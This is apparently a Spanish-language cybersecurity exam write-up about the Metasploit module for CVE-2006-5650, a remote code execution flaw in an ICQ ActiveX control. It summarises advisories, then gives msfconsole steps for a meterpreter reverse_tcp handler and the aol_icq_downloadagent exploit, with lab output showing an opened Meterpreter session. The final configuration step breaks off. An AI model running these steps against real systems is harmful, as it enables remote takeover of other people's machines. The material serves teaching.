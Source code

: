 # ciberseguridad-2019-1

Examen Parcial Ciberseguridad 


Este módulo permite a los atacantes remotos descargar y ejecutar archivos arbitrarios en un sistema de usuarios a través de la función DownloadAgent del control ActiveX de ICQPhone.SipxPhoneManager.


Nombre del modulo:  

ID MSF: EXPLOIT/WINDOWS/BROWSER/AOL_ICQ_DOWNLOADAGENT
Type: metasploit	



•	Vulnerabilidad:

CVE-2006-5650 (Módulo de metasploit) (Existe una divulgación informativa considerable). El Impacto de integridad parcial (la modificación de algunos archivos o información del sistema es posible, pero el atacante no tiene control sobre lo que se puede modificar, o el alcance de lo que puede afectar del atacante es limitado). Disponibilidad de impacto parcial (hay un rendimiento reducido o interrupciones en la disponibilidad de recursos). Complejidad de acceso baja (No existen condiciones de acceso especializadas o circunstancias atenuantes. Se requiere muy poco conocimiento o habilidad para explotar). No se requiere autenticación para explotar la vulnerabilidad).
Usuario de acceso ganado, Tipo (s) de vulnerabilidad Ejecutar Código
ID de CWE La ID de CWE no está definida para esta vulnerabilidad

OSVDB-30220: ICQ ICQPhone.SipxPhoneManager ActiveX Control DownloadAgent Función Ejecución de código arbitrario

BID-20930: Vulnerabilidad de ejecución remota de código del control ActiveX en línea de América, Clase: Error de diseño; CVE-2006-5650; Remoto: si ; Local: No, Crédito: a Peter Vreugdenhil se le atribuye el descubrimiento de esta vulnerabilidad.
Vulnerable: ICQ Inc. ICQ 5.1

ZDI-06-037 : Vulnerabilidad de ejecución de código de control ActiveX de ICQ en línea de América
ZDI-06-037
ZDI-CAN-102
CVE ID CVE-2006-5650
PUNTUACIÓN CVSS
VENDEDORES AFECTADOS America Online
PRODUCTOS AFECTADOS ICQ
PROTECCIÓN PARA CLIENTES DE MICRO TENDENCIA Los clientes de Trend Micro TippingPoint IPS están protegidos contra esta vulnerabilidad con el filtro de protección de vacunas digitales con número de identificación 4725 Esta vulnerabilidad permite a los atacantes ejecutar código arbitrario en instalaciones vulnerables de AOL ICQ. La interacción del usuario no es necesaria para explotar esta vulnerabilidad. El defecto específico existe en la función DownloadAgent del control ActiveX de ICQPhone.SipxPhoneManager con el siguiente CLSID: 54BDE6EC-F42F-4500-AC46-905177444300

La función vulnerable toma un solo argumento URI de un archivo para descargar y ejecutar en el contexto del usuario en ejecución. Un avatar de ICQ malicioso se puede usar como un vector de explotación, lo que permite a los atacantes explotar esta vulnerabilidad simplemente enviando un mensaje a un usuario de ICQ objetivo.
DETALLES ADICIONALES

AOL ha publicado una actualización para corregir esta vulnerabilidad el 31/10/2006. La actualización se aplica automáticamente una vez que se conecta al servicio ICQ.

Línea de tiempo de divulgación

CREDITO Peter Vreugdenhil



•	Sistema Operativo: 

⎫	Windows 


•	Software: 


Sistema operativo:

Kali Linux: Diseñada principalmente para la auditoría y seguridad informática en general
Herramientas: Metasploit: proporciona información acerca de vulnerabilidades de seguridad

Modulo: exploit/windows/browser/aol_icq_downloadagent

Modulo: Exploit(multi/handler)



•	Instructivo:

Requisitos:

 
1. MetaSploit instalado (Kali Linux Distribution)


Abrimos la consola de metasploit.
sudo msfconsole
Usamos Handler
msf> use multi/handler
Configuramos el Payload.
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
Configuramos el puerto local.
msf exploit(handler) > set LPORT 444
Configuramos la ip local.
msf exploit(handler) > set LHOST "Nuestra IP local"
Ejecutamos el exploit.
msf exploit(handler) > exploit

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.0.6:444 
[*] Sending stage (179779 bytes) to 192.168.0.9
[*] Meterpreter session 1 opened (192.168.0.6:444 -> 192.168.0.9:50328) at 2018-05-18 12:00:25 -0500

meterpreter > sysinfo
Computer        : DESKTOP-2MRF5DJ
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : es_ES
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows





msf> use exploit/windows/browser/aol_icq_downloadagent
exploit(aol_icq_downloadagent) > show options
msf exploit(aol_icq_downloadagent) > show targets ...targets...
msf exploit(aol_icq_downloadagent) > set SRVHOST 10.195.5.5	
exploit(aol_icq_downloadagent) > show options
msf exploit(aol_icq_downloadagent) > set TARGET 


